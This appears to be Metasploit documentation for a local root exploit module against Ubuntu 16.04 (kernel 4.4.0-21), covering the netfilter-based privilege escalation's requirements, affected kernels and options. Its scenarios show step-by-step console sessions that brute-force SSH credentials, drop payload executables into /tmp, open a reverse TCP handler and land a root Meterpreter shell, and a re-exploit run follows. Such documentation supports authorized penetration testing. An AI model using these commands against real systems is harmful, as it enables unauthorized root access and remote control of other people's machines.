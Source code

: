## Notes

Originally this module was written to drop the binary files on the target via metasm.  However, metasm wasn't able to compile due to the libc6-dev-i386 requirement, so it was decided to compile on the target or drop included binary instead of compiling real time.

This module (and the original exploit) are written in two parts: desc, and pwn.  Desc does the heavy lifting to prep/condition the environment, pwn does the payload executing.

## Creating A Testing Environment

There are a few requirements for this module to work (ubuntu):

  1. ip_tables.ko has to be loaded (root running iptables -L will do such)
  2. libc6-dev-i386 needs to be installed to compile
  3. shem and sham can not be installed/running

This module has been tested against:

  1. Ubuntu 16.04.1 (sudo apt-get install linux-image-4.4.0-21-generic)
  2. Ubuntu 16.04 (default kernel) linux-image-4.4.0-21-generic

This does not work against the following vulnerable systems.  Additional work may be required.
  
  1. Fedora 24 < [kernel-4.6.3-300](https://bugzilla.redhat.com/show_bug.cgi?id=1349722#c18)
  2. Fedora 22 < [kernel-4.4.14-200](https://bugzilla.redhat.com/show_bug.cgi?id=1349722#c19)
  3. RHEL < [kernel-3.10.0-327.36.1.el7](https://rhn.redhat.com/errata/RHSA-2016-1847.html)
  4. Suse < [kernel-default-3.12.59-60.45.2](http://lists.opensuse.org/opensuse-security-announce/2016-06/msg00060.html)

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use exploit/linux/local/ubuntu_netfilter`
  5. Do: `set session #`
  6. Do: `set verbose true`
  7. Do: `exploit`

## Options

  **MAXWAIT**

  The first stage of this priv esc can take ~35seconds to execute.  This is the timer on how long we should wait till we give up on the first stage finishing.  Defaults to 120 (seconds)

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

  **REEXPLOIT**
  
  When re-exploiting, no need to run desc (it may even fail), so we can simply run pwn and get our shell.

## Scenarios

### Ubuntu 16.04.1 (with linux-image-4.4.0-21-generic)

Initial Access

    msf > use auxiliary/scanner/ssh/ssh_login
    msf auxiliary(ssh_login) > set rhosts 127.0.0.1
    rhosts => 127.0.0.1
    msf auxiliary(ssh_login) > set username nagios
    username => nagios
    msf auxiliary(ssh_login) > set password nagios
    password => nagios
    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'nagios:nagios' 'uid=1000(nagios) gid=1000(nagios) groups=1000(nagios),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1001(nagcmd) Linux nagios 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (127.0.0.1:36085 -> 127.0.0.1:22) at 2016-09-16 01:15:34 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Escalate

    msf auxiliary(ssh_login) > use exploit/linux/local/ubuntu_netfilter
    msf exploit(ubuntu_netfilter) > set session 1
    session => 1
    msf exploit(ubuntu_netfilter) > set verbose true
    verbose => true
    msf exploit(ubuntu_netfilter) > exploit
    
    [*] Started reverse TCP handler on 172.20.14.188:4444 
    [*] Checking if libc6-dev-i386 is installed
    [+] libc6-dev-i386 is installed
    [*] Checking if ip_tables.ko is loaded
    [+] ip_tables.ko is loaded
    [*] Checking if shem or sham are installed
    [+] shem and sham not present.
    [*] Writing desc executable to /tmp/452xNomE.c
    [*] Max line length is 65537
    [*] Writing 3484 bytes in 1 chunks of 12068 bytes (octal-encoded), using printf
    [*] Executing /tmp/452xNomE, may take around 35s to finish.  Watching for /tmp/rrOA1xsB to be created.
    [*] Waited 0s so far
    [*] Waited 10s so far
    [*] Waited 20s so far
    [*] Waited 30s so far
    [+] desc finished, env ready.
    [*] Writing payload to /tmp/HbFVMTZM
    [*] Max line length is 65537
    [*] Writing 155 bytes in 1 chunks of 455 bytes (octal-encoded), using printf
    [*] Writing pwn executable to /tmp/eRFqvuyG.c
    [*] Max line length is 65537
    [*] Writing 1418 bytes in 1 chunks of 4975 bytes (octal-encoded), using printf
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to 172.20.14.188
    [*] Meterpreter session 2 opened (172.20.14.188:4444 -> 172.20.14.188:45114) at 2016-09-16 01:16:52 -0400
    
    meterpreter > getuid
    Server username: uid=0, gid=0, euid=0, egid=0, suid=0, sgid=0

### Re-exploit

In this scenario, we already exploit the box, for whatever reason our shell died.  So now we want to re-exploit, but we dont need to run desc again.

    msf exploit(ubuntu_netfilter) > set reexploit true
    reexploit => true
    msf exploit(ubuntu_netfilter) > set session 2
    session => 2
    msf exploit(ubuntu_netfilter) > exploit
    
    [*] Started reverse TCP handler on 172.20.14.188:4445 
    [*] Checking if libc6-dev-i386 is installed
    [+] libc6-dev-i386 is installed
    [*] Checking if ip_tables.ko is loaded
    [+] ip_tables.ko is loaded
    [*] Checking if shem or sham are installed
    [+] shem and sham not present.
    [*] Writing payload to /tmp/OblBUbtc
    [*] Writing pwn executable to /tmp/u4PnMEdw.c
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to 172.20.14.188
    [*] Meterpreter session 3 opened (172.20.14.188:4445 -> 172.20.14.188:40370) at 2016-09-17 13:35:57 -0400
    [+] Deleted /tmp/OblBUbtc
    [+] Deleted /tmp/u4PnMEdw.c
    [+] Deleted /tmp/u4PnMEdw
    [-] Exploit failed: Rex::TimeoutError Operation timed out.
    [*] Exploit completed, but no session was created.
